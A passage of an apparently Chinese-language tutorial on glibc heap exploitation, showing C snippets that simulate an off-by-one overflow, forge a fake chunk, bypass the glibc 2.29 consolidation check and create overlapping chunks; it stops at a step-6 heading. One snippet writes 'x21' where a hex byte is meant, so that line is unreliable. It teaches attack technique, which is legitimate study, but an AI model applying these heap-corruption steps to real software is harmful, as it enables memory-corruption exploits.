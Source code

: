 ## 步骤3 – 触发缓冲区溢出从C覆盖D，并创建fake chunk

我们模拟了一个缓冲区溢出漏洞，它覆盖了超过C的一个字节，并破坏了D的mchunk_size：

```
0xc1 (size 0xc0 and PREV_INUSE flag set)
```

to:

```
0xa0 (size 0xa0 and PREV_INUSE cleared)
```

payload还将D的mchunk_prev_size字段覆盖为0x140，该字段将包含chunk B、C和D。

通过改变大小，我们还需要在D中的偏移量0x98处创建fake chunk 数据，以通过堆一致性检查。

```
// Simulate a buffer overflow (only over by 1 byte)
memcpy(c, payload, 0x99);

// Create a fake chunk in D, because it will be checked
// for consistency (PREV_INUSE must be set)
// 0x21 + new corrupt size (0xa0) == 0xc0, the original size
d[0x98] = 'x21';
```



## 步骤4 – 再次触发缓冲区溢出 A 覆盖 B

glibc 2.29中引入了向后合并检查，如果D的mchunk_prev_size与示例中的B的大小不匹配，则该检查将中止。为了绕过这个，我们需要破坏B的大小。由于A和C的大小相同，这类似于在相同类型的对象上使用相同的缓冲区溢出两次，而不是在不同大小的对象上使用两个单独的溢出。

```
// Buffer overflow from A into B, to corrupt its size so it
// will match d's corrupted prev_size
memcpy(a, payload2, 0x9a);
```



## 步骤5 – 将B，C和D合并为unsorted中的一个chunk

我们现在能够触发D上的free，它将与已损坏且已释放的chunk D合并，并覆盖仍要分配的chunk c。

```
// Free D, causing it to be consolidated into one big chunk,
// still in the unsorted bin
free(d);
d = NULL;
```



## 步骤6 – 使用重叠chunk制造一个UAF场景
